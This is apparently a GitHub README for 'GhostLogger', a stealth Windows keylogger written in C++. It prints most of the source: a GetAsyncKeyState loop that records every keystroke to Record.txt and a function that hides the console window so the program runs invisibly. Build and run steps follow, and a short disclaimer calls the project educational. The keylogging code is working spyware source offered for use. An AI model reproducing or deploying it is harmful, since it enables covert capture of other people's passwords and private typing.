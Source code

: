 <img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

<div align="center">

# GhostLogger 👻🖥️

**Welcome to **GhostLogger**, a stealthy and efficient keylogging application for Windows! Designed for educational purposes and to demonstrate low-level Windows programming techniques, GhostLogger captures and records keystrokes in a hidden manner.**

</div>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Features 🌟
- **Stealth Mode**: Runs invisibly in the background.
- **Comprehensive Key Logging**: Captures a wide range of keys, including alphabetic characters, numeric keys, function keys, control keys, and special characters.
- **Log File**: Records all keystrokes in `Record.txt`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Project Structure 📁
```
GhostLogger
├───.vscode
│   ├───c_cpp_properties.json
│   ├───settings.json
│   └───tasks.json
└───src
    ├───main.cpp
    └───Record.txt
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## How It Works 🛠️
The main functionality is encapsulated in `main.cpp`, which includes the following key components:
- **KeyLogger**: A function that captures keystrokes using `GetAsyncKeyState` and writes them to `Record.txt`.
- **hide_exe**: A function that hides the console window to ensure the program runs `invisibly`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

### Code Overview 👨‍💻
Here's a brief look at the core code in `main.cpp`:

```cpp
#include <iostream>
#include <windows.h>
#include <winuser.h>
#include <fstream>

// Function prototypes
void KeyLogger(void);
void hide_exe(void);

// main function
int main(void)
{
    hide_exe();
    KeyLogger();
}

// function to capture the keystrokes
void KeyLogger(void)
{
    char character;

    while (true)
    {
        for (character = 8; character <= 222; character++)
        {
            if (GetAsyncKeyState(character) == -32767)
            {
                std::ofstream write("Record.txt", std::ios::app);
                if (character > 64 && character < 91 && !GetAsyncKeyState(0x10))
                {
                    character += 32;
                    write << character;
                }
                else if (character > 64 && character < 91)
                {
                    write << character;
                }

                switch (character)
                {
                    case 39: // '
                        write << (GetAsyncKeyState(0x10) ? "\"" : "'");
                        break;
                    case 44: // ,
                        write << (GetAsyncKeyState(0x10) ? "<" : ",");
                        break;
                    // ... handle other cases ...
                    case VK_RETURN: // ENTER key
                        write << " <Enter> " << std::endl;
                        break;
                    case 32: // Space key
                        write << " ";
                        break;
                    // ... handle other cases ...
                }
            }
        }
    }
}

// function to hide the exe file.
void hide_exe(void)
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, 0);
}
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Getting Started 🚀
To run GhostLogger on your machine, follow these steps for different operating systems:

### Windows
1. **Clone the Repository**:
   ```sh
   git clone https://github.com/B3TA-BLOCKER/GhostLogger.git
   ```

2. **Open and Edit the Code**:
   - Use any text editor of your choice (e.g., Notepad++, Sublime Text, Atom, or even Notepad).

3. **Compile and Run**:
   - Ensure you have a C++ compiler installed. You can use any of the following methods:

#### Using GCC (MinGW):

1. **Install MinGW**: Download and install MinGW from [MinGW website](http://www.mingw.org/).

2. **Compile the Code**:
   ```sh
   g++ src/main.cpp -o main
   ```

3. **Run the Program**:
   ```sh
   ./main
   ```

#### Using Visual Studio:

1. **Install Visual Studio**: Download and install Visual Studio from [Visual Studio website](https://visualstudio.microsoft.com/).

2. **Open the Project**:
   - Create a new project or open an existing one.
   - Add `main.cpp` to the project.

3. **Compile and Run**:
   - Use the build and run options within Visual Studio.

### macOS and Linux
**This project relies on `Windows-specific APIs` and functions, making it `incompatible` with macOS and Linux out of the box.** 
**As GhostLogger uses Windows-specific functions like `GetAsyncKeyState`, `AllocConsole`, and `FindWindowA`, it won't compile or run on macOS and Linux without significant modifications. The instructions above are for general C++ projects.**

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Usage ⚙️
- Once the program is running, it will operate in the background, logging all keystrokes to `Record.txt`.
- To stop the program, you will need to end the process through Task Manager or by terminating it via your development environment.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Legal Disclaimer ⚖️
This project is intended for educational purposes only. Unauthorized use of keylogging software is illegal and unethical. Always ensure you have explicit permission before using this software on any device.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Connect with Me 🌐
I'm always looking to expand my professional network and explore new opportunities. Let's connect!
- [LinkedIn](https://www.linkedin.com/in/hassaan-ali-bukhari/)
- [Email](mailto:hassaanalibukhari@gmail.com)

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## License 📜
This project is licensed under the Creative Commons Zero v1.0 Universal License. See the [LICENSE](LICENSE) file for details.

<br>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

Made by [Hassaan Ali Bukhari](https://github.com/B3TA-BLOCKER)
<br>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=DotGothic16&size=41&width=800&height=60&lines=Happy+coding!+🚀&center=true&vCenter=true)](https://git.io/typing-svg)

